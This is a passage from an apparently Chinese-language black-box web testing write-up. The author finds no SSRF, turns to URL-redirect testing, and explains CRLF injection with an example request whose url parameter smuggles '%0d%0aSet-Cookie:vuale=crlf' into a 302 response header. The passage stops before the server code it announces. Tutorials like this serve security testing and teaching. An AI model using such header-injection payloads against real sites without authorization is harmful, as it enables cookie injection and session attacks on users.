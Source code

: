 测试完SSRF后发现没有该漏洞~

![1574431569568]({{site.baseurl}}/assets/images/黑盒测试/image/1574431569568.png)

![1574431518002]({{site.baseurl}}/assets/images/黑盒测试/image/1574431518002.png)

转入URL跳转测试

![1574431730099]({{site.baseurl}}/assets/images/黑盒测试/image/1574431730099.png)

![1574431772440]({{site.baseurl}}/assets/images/黑盒测试/image/1574431772440.png)

结束了么？没有，那么是否还存在其他利用方式呢？

往下测试之前，我们先来看看URL跳转以及**CRLF**的原理.

**插叙**

CRLF 指的是**回车符**(CR，ASCII 13，\r，%0d) 和**换行符**(LF，ASCII 10，\n，%0a)。 

正常的一个请求

```
GET api/xxxx/?url=http://www.xxc.com
Host:qclover.cn
User-Agent:xxxxx
...
Referer:http:qclover.cn
Cookie:xxxxxxxxxx
...

```

抓包，在请求行的url参数中加入特殊构造的CRLF字符 如下

```
GET api/xxxx/?url=http://www.xxc.com%0d%0aSet-Cookie:vuale=crlf HTTP/1.1
Host:qclover.cn
User-Agent:xxxxx
...
Referer:http:qclover.cn
Cookie:xxxxxxxxxx
...
```

输出

```
HTTP/1.1 302 Found
...
Location:http://www.xxc.com
Set-Cookie:vuale=crlf
Content-Length:0
Content-Type:text/html
```

这样一个CRLF对应的服务端的代码可能是这样子的
